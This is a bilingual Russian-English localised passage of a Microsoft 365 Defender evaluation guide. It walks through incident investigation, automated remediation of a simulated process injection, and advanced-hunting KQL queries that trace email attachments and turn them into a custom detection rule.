<span data-ttu-id="2a5d9-222">После изучения различных оповещений в этом инциденте перейдите на страницу инцидента, которая была исследована ранее.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-222">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="2a5d9-223">Выберите **вкладку Devices** на странице инцидента, чтобы просмотреть устройства, участвующие в этом инциденте, о чем сообщили Microsoft Defender для конечной точки и Microsoft Defender for Identity.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-223">Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.</span></span>

<span data-ttu-id="2a5d9-224">Выберите имя устройства, на котором была совершена атака, чтобы открыть страницу сущности для этого конкретного устройства.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-224">Select the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="2a5d9-225">На этой странице можно увидеть оповещения, которые были вызваны и связанные события.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-225">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="2a5d9-226">Выберите **вкладку Timeline** для открытия временной шкалы устройства и просмотра всех событий и поведения, наблюдаемых на устройстве в хронологическом порядке, впереме с поднятыми оповещениями.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-226">Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>


<span data-ttu-id="2a5d9-228">Расширение некоторых наиболее интересных поведений содержит полезные сведения, например, деревья процессов.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-228">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="2a5d9-229">Например, прокрутите вниз, пока не найдете наблюдаемую инъекцию подозрительного процесса **оповещения.**</span><span class="sxs-lookup"><span data-stu-id="2a5d9-229">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="2a5d9-230">Выберите **powershell.exe,** впрыскивающееся в notepad.exe процесса ниже него, чтобы отобразить полное дерево процесса для этого поведения в графе сущностями событий на боковой области. </span><span class="sxs-lookup"><span data-stu-id="2a5d9-230">Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="2a5d9-231">При необходимости используйте панели поиска для фильтрации.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-231">Use the search bar for filtering if necessary.</span></span>


### <a name="review-the-user-information-microsoft-cloud-app-security"></a><span data-ttu-id="2a5d9-233">Просмотрите сведения о пользователях [Безопасность облачных приложений Майкрософт]</span><span class="sxs-lookup"><span data-stu-id="2a5d9-233">Review the user information [Microsoft Cloud App Security]</span></span>

<span data-ttu-id="2a5d9-234">На странице инцидента выберите вкладку **"Пользователи",** чтобы отобразить список пользователей, участвующих в атаке.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-234">On the incident page, select the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="2a5d9-235">В таблице содержатся дополнительные сведения о каждом пользователе, включая оценку приоритета расследования **каждого** пользователя.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-235">The table contains additional information about each user, including each user's **Investigation Priority** score.</span></span>

<span data-ttu-id="2a5d9-236">Выберите имя пользователя, чтобы открыть страницу профиля пользователя, на которой может быть проведено дополнительное исследование.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-236">Select the user name to open the user's profile page where further investigation can be conducted.</span></span> <span data-ttu-id="2a5d9-237">[Узнайте больше о расследовании рискованных пользователей.](/cloud-app-security/tutorial-ueba#identify)</span><span class="sxs-lookup"><span data-stu-id="2a5d9-237">[Read more about investigating risky users](/cloud-app-security/tutorial-ueba#identify).</span></span>


## <a name="automated-investigation-and-remediation"></a><span data-ttu-id="2a5d9-239">Автоматическое исследование и защита</span><span class="sxs-lookup"><span data-stu-id="2a5d9-239">Automated investigation and remediation</span></span>

> [!NOTE]
><span data-ttu-id="2a5d9-240">Прежде чем мы пройдемся по этому моделированию, просмотрите следующее видео, чтобы узнать, что такое автоматическое самовосстановления, где найти его на портале и как оно может помочь в операциях по обеспечению безопасности:</span><span class="sxs-lookup"><span data-stu-id="2a5d9-240">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="2a5d9-241">Перейдите к инциденту на портале Центра безопасности Microsoft 365.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-241">Navigate back to the incident in the Microsoft 365 Security Center portal.</span></span> <span data-ttu-id="2a5d9-242">На **вкладке "Исследования"** на странице **Incident** показаны автоматические расследования, которые были инициированы Microsoft Defender для удостоверений и Microsoft Defender для конечной точки.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-242">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint.</span></span> <span data-ttu-id="2a5d9-243">На приведенном ниже снимке экрана отображается только автоматическое расследование, инициированное Defender для конечной точки.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-243">The screenshot below displays only the automated investigation triggered by Defender for Endpoint.</span></span> <span data-ttu-id="2a5d9-244">По умолчанию Defender для конечной точки автоматически устраняет артефакты, найденные в очереди, что требует исправлений.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-244">By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.</span></span>


<span data-ttu-id="2a5d9-246">Выберите оповещение, которое вызвало расследование, чтобы открыть страницу **сведений о расследовании.**</span><span class="sxs-lookup"><span data-stu-id="2a5d9-246">Select the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="2a5d9-247">Вы увидите следующие сведения:</span><span class="sxs-lookup"><span data-stu-id="2a5d9-247">You'll see the following details:</span></span>

- <span data-ttu-id="2a5d9-248">Оповещение(ы), которое вызвало автоматическое расследование.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-248">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="2a5d9-249">Влияние пользователей и устройств.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-249">Impacted users and devices.</span></span> <span data-ttu-id="2a5d9-250">Если индикаторы находятся на дополнительных устройствах, эти дополнительные устройства также будут перечислены.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-250">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="2a5d9-251">Список доказательств.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-251">List of evidence.</span></span> <span data-ttu-id="2a5d9-252">Объекты, найденные и проанализированы, например файлы, процессы, службы, драйверы и сетевые адреса.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-252">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="2a5d9-253">Эти сущности анализируются для возможных связей с оповещением и оцениваются как доброкачественные или вредоносные.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-253">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="2a5d9-254">Найдены угрозы.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-254">Threats found.</span></span> <span data-ttu-id="2a5d9-255">Известные угрозы, найденные в ходе расследования.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-255">Known threats that are found during the investigation.</span></span>

> [!NOTE]
> <span data-ttu-id="2a5d9-256">В зависимости от времени может быть запущено автоматическое расследование.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-256">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="2a5d9-257">Подождите несколько минут, пока процесс не завершится, прежде чем собирать и анализировать доказательства и анализировать результаты.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-257">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="2a5d9-258">Обновите **страницу сведения о** расследовании, чтобы получить последние результаты.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-258">Refresh the **Investigation details** page to get the latest findings.</span></span>


<span data-ttu-id="2a5d9-260">В ходе автоматического исследования Microsoft Defender for Endpoint определил процесс notepad.exe, который был введен в качестве одного из артефактов, требующих восстановления.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-260">During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="2a5d9-261">Defender for Endpoint автоматически останавливает подозрительную инъекцию процесса в рамках автоматического восстановления.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-261">Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.</span></span>

<span data-ttu-id="2a5d9-262">Вы можете <i>notepad.exe</i> из списка запущенных процессов на тестовом устройстве.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-262">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

## <a name="resolve-the-incident"></a><span data-ttu-id="2a5d9-263">Устранение инцидента</span><span class="sxs-lookup"><span data-stu-id="2a5d9-263">Resolve the incident</span></span>

<span data-ttu-id="2a5d9-264">После завершения расследования и подтверждения его устранения закрой инцидент.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-264">After the investigation is complete and confirmed to be remediated, close the incident.</span></span>

<span data-ttu-id="2a5d9-265">Выберите **Управление инцидентом**.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-265">Select **Manage incident**.</span></span> <span data-ttu-id="2a5d9-266">Установите состояние для **устранения инцидента** и выберите соответствующую классификацию.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-266">Set the status to **Resolve incident** and select the relevant classification.</span></span>

<span data-ttu-id="2a5d9-267">После разрешения инцидента он закрывает все связанные оповещения в Центре безопасности Microsoft 365 и на соответствующих порталах.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-267">When the incident is resolved, it closes all of the associated alerts in Microsoft 365 Security Center and in the related portals.</span></span>


<span data-ttu-id="2a5d9-269">Это завершает моделирование атак для управления инцидентами и автоматизированных сценариев расследования и восстановления.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-269">This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios.</span></span> <span data-ttu-id="2a5d9-270">Следующее моделирование поможет вам в активной охоте на угрозы для потенциально вредоносных файлов.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-270">The next simulation will take you through proactive threat hunting for potentially malicious files.</span></span>

## <a name="advanced-hunting-scenario"></a><span data-ttu-id="2a5d9-271">Расширенный сценарий охоты</span><span class="sxs-lookup"><span data-stu-id="2a5d9-271">Advanced hunting scenario</span></span>

> [!NOTE]
> <span data-ttu-id="2a5d9-272">Прежде чем мы пройдемся по моделированию, просмотрите следующее видео, чтобы понять передовые концепции охоты, узнайте, где его можно найти на портале, и узнайте, как это может помочь вам в операциях по безопасности:</span><span class="sxs-lookup"><span data-stu-id="2a5d9-272">Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a><span data-ttu-id="2a5d9-273">Требования среды охоты</span><span class="sxs-lookup"><span data-stu-id="2a5d9-273">Hunting environment requirements</span></span>

<span data-ttu-id="2a5d9-274">Для этого сценария требуется один внутренний почтовый ящик и устройство.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-274">There's a single internal mailbox and device required for this scenario.</span></span> <span data-ttu-id="2a5d9-275">Для отправки тестового сообщения также потребуется внешняя учетная запись электронной почты.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-275">You'll also need an external email account to send the test message.</span></span>

1. <span data-ttu-id="2a5d9-276">Убедитесь, что клиент включил [Microsoft 365 Defender.](./mtp-enable.md#starting-the-service)</span><span class="sxs-lookup"><span data-stu-id="2a5d9-276">Verify that your tenant has [enabled Microsoft 365 Defender](./mtp-enable.md#starting-the-service).</span></span>
2. <span data-ttu-id="2a5d9-277">Определите целевой почтовый ящик, который будет использоваться для получения электронной почты.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-277">Identify a target mailbox to be used for receiving email.</span></span>
    <span data-ttu-id="2a5d9-278">а.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-278">a.</span></span> <span data-ttu-id="2a5d9-279">Этот почтовый ящик должен контролироваться Microsoft Defender для Office 365 b.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-279">This mailbox must be monitored by Microsoft Defender for Office 365 b.</span></span> <span data-ttu-id="2a5d9-280">Устройство из требования 3 должно получить доступ к этому почтовому ящику</span><span class="sxs-lookup"><span data-stu-id="2a5d9-280">The device from requirement 3 needs to access this mailbox</span></span>
3. <span data-ttu-id="2a5d9-281">Настройка тестового устройства: a.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-281">Configure a test device: a.</span></span> <span data-ttu-id="2a5d9-282">Убедитесь, что вы используете Windows 10 версии 1903 или более поздней версии.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-282">Make sure you are using Windows 10 version 1903 or later version.</span></span>
    <span data-ttu-id="2a5d9-283">б.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-283">b.</span></span> <span data-ttu-id="2a5d9-284">Присоединитесь к тестовом устройству в тестовом домене.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-284">Join the test device to the test domain.</span></span>
    <span data-ttu-id="2a5d9-285">в.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-285">c.</span></span> <span data-ttu-id="2a5d9-286">[Включи Защитник Windows антивирус](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="2a5d9-286">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="2a5d9-287">Если у вас возникли проблемы с включением Защитник Windows антивируса, см. в этом разделе [устранение неполадок.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)</span><span class="sxs-lookup"><span data-stu-id="2a5d9-287">If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <span data-ttu-id="2a5d9-288">г.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-288">d.</span></span> <span data-ttu-id="2a5d9-289">[На борту в Microsoft Defender для конечной точки](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="2a5d9-289">[Onboard to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

### <a name="run-the-simulation"></a><span data-ttu-id="2a5d9-290">Запуск моделирования</span><span class="sxs-lookup"><span data-stu-id="2a5d9-290">Run the simulation</span></span>

1. <span data-ttu-id="2a5d9-291">Из внешней учетной записи электронной почты отправьте сообщение электронной почты в почтовый ящик, выявленный на шаге 2 раздела требования к тестовой среде.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-291">From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section.</span></span> <span data-ttu-id="2a5d9-292">Включайте вложение, которое будет разрешено через любые существующие политики фильтра электронной почты.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-292">Include an attachment that will be allowed through any existing email filter policies.</span></span> <span data-ttu-id="2a5d9-293">Этот файл не должен быть вредоносным или исполняемым.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-293">This file does not need to be malicious or an executable.</span></span> <span data-ttu-id="2a5d9-294">Рекомендуемые типы файлов <i>: .pdf,</i> <i>.exe</i> (если разрешено) или документ Office, например файл Word.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-294">Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.</span></span>
2. <span data-ttu-id="2a5d9-295">Откройте отправленную электронную почту с устройства, настроенного в соответствии с этапом 3 раздела требования к тестовой среде.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-295">Open the sent email from the device configured as defined in step 3 of the test environment requirements section.</span></span> <span data-ttu-id="2a5d9-296">Откройте вложение или сохраните файл на устройстве.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-296">Either open the attachment or save the file to the device.</span></span>

#### <a name="go-hunting"></a><span data-ttu-id="2a5d9-297">Перейти на охоту</span><span class="sxs-lookup"><span data-stu-id="2a5d9-297">Go hunting</span></span>

1. <span data-ttu-id="2a5d9-298">Откройте портал security.microsoft.com.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-298">Open the security.microsoft.com portal.</span></span>

2. <span data-ttu-id="2a5d9-299">Перейдите к **охоте > advanced hunting**.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-299">Navigate to **Hunting > Advanced hunting**.</span></span>

   

3. <span data-ttu-id="2a5d9-301">Создайте запрос, который начинается с сбора событий электронной почты.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-301">Build a query that starts by gathering email events.</span></span>

   1. <span data-ttu-id="2a5d9-302">На области запроса выберите New.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-302">From the query pane, select New.</span></span>

   1. <span data-ttu-id="2a5d9-303">Дважды щелкните таблицу EmailEvents из схемы.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-303">Double-click on the EmailEvents table from the schema.</span></span>

      ```console
      EmailEvents
      ```

   1. <span data-ttu-id="2a5d9-304">Измените сроки до последних 24 часов.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-304">Change the time frame to the last 24 hours.</span></span> <span data-ttu-id="2a5d9-305">Если предположить, что отправленное вами сообщение при прогона вышеуказанного моделирования было в течение последних 24 часов, в противном случае измените сроки.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-305">Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.</span></span>

      

   1. <span data-ttu-id="2a5d9-308">Запустите запрос.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-308">Run the query.</span></span> <span data-ttu-id="2a5d9-309">У вас может быть много результатов в зависимости от среды для пилота.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-309">You may have many results depending on the environment for the pilot.</span></span>

      > [!NOTE]
      > <span data-ttu-id="2a5d9-310">Следующий шаг для фильтрации параметров для ограничения возврата данных.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-310">See the next step for filtering options to limit data return.</span></span>

      

        > [!NOTE]
        > <span data-ttu-id="2a5d9-312">Расширенный поиск отображает результаты запроса в качестве табулярных данных.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-312">Advanced hunting displays query results as tabular data.</span></span> <span data-ttu-id="2a5d9-313">Вы также можете выбрать для просмотра данных в других типах форматов, таких как диаграммы.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-313">You can also opt to view the data in other format types such as charts.</span></span>

   1. <span data-ttu-id="2a5d9-314">Посмотрите на результаты и узнайте, можно ли определить открытую электронную почту.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-314">Look at the results and see if you can identify the email you opened.</span></span> <span data-ttu-id="2a5d9-315">Может потребоваться до 2 часов, чтобы сообщение было посеяно в продвинутой охоте.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-315">It may take up to 2 hours for the message to show up in advanced hunting.</span></span> <span data-ttu-id="2a5d9-316">Если среда электронной почты большая и результатов много, для поиска сообщения может потребоваться использовать параметр **Show Filters.**</span><span class="sxs-lookup"><span data-stu-id="2a5d9-316">If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.</span></span>

      <span data-ttu-id="2a5d9-317">В примере сообщение было отправлено из учетной записи Yahoo.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-317">In the sample, the email was sent from a Yahoo account.</span></span> <span data-ttu-id="2a5d9-318">Щелкните значок рядом yahoo.com разделе **+** SenderFromDomain и нажмите кнопку **Применить,** чтобы добавить выбранный домен в  запрос.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-318">Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query.</span></span> <span data-ttu-id="2a5d9-319">Для фильтрации результатов используйте домен или учетную запись электронной почты, которая использовалась для отправки тестового сообщения на шаге 1 запуска моделирования.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-319">Use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results.</span></span> <span data-ttu-id="2a5d9-320">Запустите запрос снова, чтобы получить меньший набор результатов, чтобы убедиться, что вы видите сообщение из моделирования.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-320">Run the query again to get a smaller result set to verify that you see the message from the simulation.</span></span>

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. <span data-ttu-id="2a5d9-323">Щелкните строки из запроса, чтобы проверить запись.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-323">Click the resulting rows from the query so you can inspect the record.</span></span>

      

4. <span data-ttu-id="2a5d9-325">Теперь, когда вы убедились, что вы можете увидеть электронную почту, добавьте фильтр для вложений.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-325">Now that you have verified that you can see the email, add a filter for the attachments.</span></span> <span data-ttu-id="2a5d9-326">Сосредоточься на всех сообщениях электронной почты с вложениями в среде.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-326">Focus on all emails with attachments in the environment.</span></span> <span data-ttu-id="2a5d9-327">В этом сценарии основное внимание уделяйте входящие сообщения электронной почты, а не тем, которые отправляются из среды.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-327">For this scenario, focus on inbound emails, not those that are being sent out from your environment.</span></span> <span data-ttu-id="2a5d9-328">Удалите добавленные фильтры, чтобы найти сообщение и добавить "| где **AttachmentCount > 0** и **emailDirection**  ==  **"Inbound""**</span><span class="sxs-lookup"><span data-stu-id="2a5d9-328">Remove any filters you have added to locate your message and add "| where **AttachmentCount > 0** and **EmailDirection** == **"Inbound""**</span></span>

   <span data-ttu-id="2a5d9-329">Следующий запрос покажет результат с более коротким списком, чем первоначальный запрос для всех событий электронной почты:</span><span class="sxs-lookup"><span data-stu-id="2a5d9-329">The following query will show you the result with a shorter list than your initial query for all email events:</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. <span data-ttu-id="2a5d9-330">Далее включите сведения о вложении (например: имя файла, хеши) в набор результатов.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-330">Next, include the information about the attachment (such as: file name, hashes) to your result set.</span></span> <span data-ttu-id="2a5d9-331">Для этого присоединитесь к таблице **EmailAttachmentInfo.**</span><span class="sxs-lookup"><span data-stu-id="2a5d9-331">To do so, join the **EmailAttachmentInfo** table.</span></span> <span data-ttu-id="2a5d9-332">Общие поля, которые необходимо использовать для присоединения, в данном случае **— NetworkMessageId и** **RecipientObjectId.**</span><span class="sxs-lookup"><span data-stu-id="2a5d9-332">The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.</span></span>

   <span data-ttu-id="2a5d9-333">В следующем запросе также содержится дополнительная строка "| **Переименование проекта в EmailTimestamp=Timestamp** поможет определить время, связанное с электронной почтой, а также с периодами времени, связанными с действиями файла, которые будут добавлены на следующем шаге.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-333">The following query also includes an additional line "| **project-rename EmailTimestamp=Timestamp**" that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. <span data-ttu-id="2a5d9-334">Далее используйте значение **SHA256** из таблицы **EmailAttachmentInfo,** чтобы найти для этого хаша **действия DeviceFileEvents** (действия файлов, которые произошли на конечной точке).</span><span class="sxs-lookup"><span data-stu-id="2a5d9-334">Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash.</span></span> <span data-ttu-id="2a5d9-335">Общим полем здесь будет hash SHA256 для вложения.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-335">The common field here will be the SHA256 hash for the attachment.</span></span>

   <span data-ttu-id="2a5d9-336">В итоговой таблице теперь содержатся сведения из конечной точки (Microsoft Defender для конечной точки), такие как имя устройства, какое действие было сделано (в данном случае фильтруется только для того, чтобы включить события FileCreated) и где был сохранен файл.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-336">The resulting table now includes details from the endpoint (Microsoft Defender for Endpoint) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored.</span></span> <span data-ttu-id="2a5d9-337">Также будет включено имя учетной записи, связанной с процессом.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-337">The account name associated with the process will also be included.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   <span data-ttu-id="2a5d9-338">Теперь создан запрос, который определит все входящие сообщения электронной почты, в которых пользователь открыл или сохранил вложение.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-338">You've now created a query that'll identify all inbound emails where the user opened or saved the attachment.</span></span> <span data-ttu-id="2a5d9-339">Вы также можете уточнить этот запрос для фильтрации определенных доменов отправитель, размеров файлов, типов файлов и так далее.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-339">You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.</span></span>

7. <span data-ttu-id="2a5d9-340">Функции — это особый тип присоединяться, который позволит вам извлекть больше данных TI о файле, как его распространенность, сведения о подписавщике и эмитенте и т.д. Чтобы получить дополнительные сведения о файле, используйте **функцию FileProfile()** для обогащения:</span><span class="sxs-lookup"><span data-stu-id="2a5d9-340">Functions are a special kind of join, which let you pull more TI data about a file like its prevalence, signer and issuer info, etc. To get more details on the file, use the **FileProfile()** function enrichment:</span></span>

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a><span data-ttu-id="2a5d9-341">Создание обнаружения</span><span class="sxs-lookup"><span data-stu-id="2a5d9-341">Create a detection</span></span>

<span data-ttu-id="2a5d9-342">После создания запроса, который определяет сведения, которые  вы хотите получить оповещены о том, что они произойдут в будущем, можно создать настраиваемую обнаружение из запроса.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-342">Once you have created a query that identifies information that you'd like to **get alerted** about if they happen in the future, you can create a custom detection from the query.</span></span>

<span data-ttu-id="2a5d9-343">Настраиваемые обнаружения будут запускать запрос в соответствии с установленными частотами, а результаты запросов будут создавать оповещения о безопасности на основе влияния ресурсов, которые вы выбираете.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-343">Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose.</span></span> <span data-ttu-id="2a5d9-344">Эти оповещений будут коррелироваться с инцидентами и могут быть триагирована как любое другое оповещение о безопасности, созданные одним из продуктов.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-344">Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.</span></span>

1. <span data-ttu-id="2a5d9-345">На странице запроса удалите строки 7 и 8, которые были добавлены в шаге 7 инструкций по охоте Go и нажмите кнопку **Создать правило обнаружения**.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-345">On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.</span></span>

   

   > [!NOTE]
   > <span data-ttu-id="2a5d9-347">Если вы нажмете правило **Создать** обнаружение и у вас есть ошибки синтаксиса в запросе, ваше правило обнаружения не будет сохранено.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-347">If you click **Create detection rule** and you have syntax errors in your query, your detection rule won't be saved.</span></span> <span data-ttu-id="2a5d9-348">Дважды проверьте запрос, чтобы не было ошибок.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-348">Double-check your query to ensure there's no errors.</span></span>

2. <span data-ttu-id="2a5d9-349">Заполните необходимые поля сведениями, которые позволят группе безопасности понять оповещение, почему оно было сгенерировано и какие действия вы ожидаете от них.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-349">Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.</span></span>

   

   <span data-ttu-id="2a5d9-351">Убедитесь, что вы заполните поля с ясностью, чтобы помочь дать следующему пользователю информированное решение об этом предупреждении правила обнаружения</span><span class="sxs-lookup"><span data-stu-id="2a5d9-351">Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert</span></span>

3. <span data-ttu-id="2a5d9-352">Выберите, какие объекты оказывают влияние в этом оповещении.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-352">Select what entities are impacted in this alert.</span></span> <span data-ttu-id="2a5d9-353">В этом случае выберите **устройство** и **почтовый ящик.**</span><span class="sxs-lookup"><span data-stu-id="2a5d9-353">In this case, select **Device** and **Mailbox**.</span></span>

   

